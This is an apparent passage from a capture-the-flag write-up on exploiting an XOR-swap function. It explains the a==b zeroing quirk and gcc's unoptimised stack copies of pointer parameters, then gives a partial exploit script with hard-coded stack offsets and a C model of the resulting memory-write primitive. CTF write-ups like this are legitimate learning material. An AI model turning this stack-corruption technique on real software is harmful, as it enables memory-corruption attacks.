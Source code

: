 
using swap on ptrs has some interesting edge cases notably if `a == b` the value doesn't get swapped but zeroed out instead (because `*a ^ *a == 0`))

One important quirk of the gcc compiler (if no optimization is specified) is that the parameters `a` and `b` are actually cached in the stack (`a_stack` and `b_stack`) even though this isn't needed at all. But this allows us the create some weird behavior, e.g. what happens if we swap the value of `b_stack` during our swap operations, (so `b != b_stack`).

```python
GDB = f"""
b * swap+0x10
"""

...

# important offsets
BASE = 0x7fffffffe530 # 0
A_STACK = base_diff(0x7fffffffe508) # -5
B_STACK = base_diff(0x7fffffffe500) # -6
WOOGIE_STACK = base_diff(0x7fffffffe538) # 1
BOOGIE_STACK = base_diff(0x7fffffffe540) # 2

t = get_target()
woogie_boogie(0, WOOGIE_STACK) # clear buffer (to 0)
woogie_boogie(0, B_STACK) # weird stuff

it()
```

which basically represents these operations:

```c
#include <assert.h>

#define IMMEDIATE 0x20 
#define DONOR 0x6fe1be2

void main(){
  long buffer = IMMEDIATE;
  *(long *)((long)&buffer^IMMEDIATE) = DONOR;
  long* b = &buffer;
  long* a = (long*) &b;

  *a = *a^*b; 
  // OR b = b^*b
  // OR b = &buffer^IMMEDIATE
  assert((long)b == (long)&buffer^buffer);

  *b = *a^*b; 
  // OR *(&buffer^IMMEDIATE) = *(&buffer^IMMEDIATE)^&buffer^IMMEDIATE 
  // OR *(&buffer^IMMEDIATE) ^= &buffer^IMMEDIATE
  assert(*(long*)((long)&buffer^IMMEDIATE) == DONOR^(long)&buffer^buffer);

  *a = *a^*b; // ignore

  assert(*(long*)((long)&buffer^IMMEDIATE) == DONOR^(long)&buffer^buffer);
}
```
